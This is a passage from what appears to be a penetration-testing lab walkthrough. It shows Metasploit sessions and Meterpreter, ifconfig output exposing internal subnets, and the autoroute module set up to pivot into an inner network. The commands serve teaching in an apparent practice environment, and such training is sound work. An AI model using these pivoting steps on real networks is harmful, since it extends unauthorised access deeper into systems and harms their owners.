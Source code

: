 ```
id
uid=1121(boba_fett) gid=100(users) groups=100(users)
```

Now we have a basic shell running as the `boba_fett`.
Same as last time, you can upgrade this shell to a Meterpreter session with `sessions -i -1`.

## Setting up a route

Running `ifconfig` on your new Meterpreter session will show that you've found another network:

```
msf6 post(multi/recon/local_exploit_suggester) > sessions -i 6
[*] Starting interaction with 6...

meterpreter > ifconfig

Interface  1
============
Name         : lo
Hardware MAC : 00:00:00:00:00:00
MTU          : 65536
Flags        : UP,LOOPBACK
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff::


Interface 20
============
Name         : middle_net0
Hardware MAC : 02:42:ac:19:00:02
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 172.25.0.2
IPv4 Netmask : 255.255.255.0


Interface 26
============
Name         : inner_net0
Hardware MAC : 02:42:ac:1a:00:03
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 172.26.0.3
IPv4 Netmask : 255.255.255.0
```

We can add this new network to our Metasploit routing table same as last time:

```
msf6 post(multi/recon/local_exploit_suggester) > use post/multi/manage/autoroute
msf6 post(multi/manage/autoroute) > set SUBNET 172.26.0.0
SUBNET => 172.26.0.0
msf6 post(multi/manage/autoroute) > set SUBNET 172.26.0.0
SUBNET => 172.26.0.0
msf6 post(multi/manage/autoroute) > set NETMASK 24
NETMASK => 24
msf6 post(multi/manage/autoroute) > set SESSION 6
SESSION => 6
msf6 post(multi/manage/autoroute) > run

[*] Running module against 172.26.0.3
[*] Searching for subnets to autoroute.
```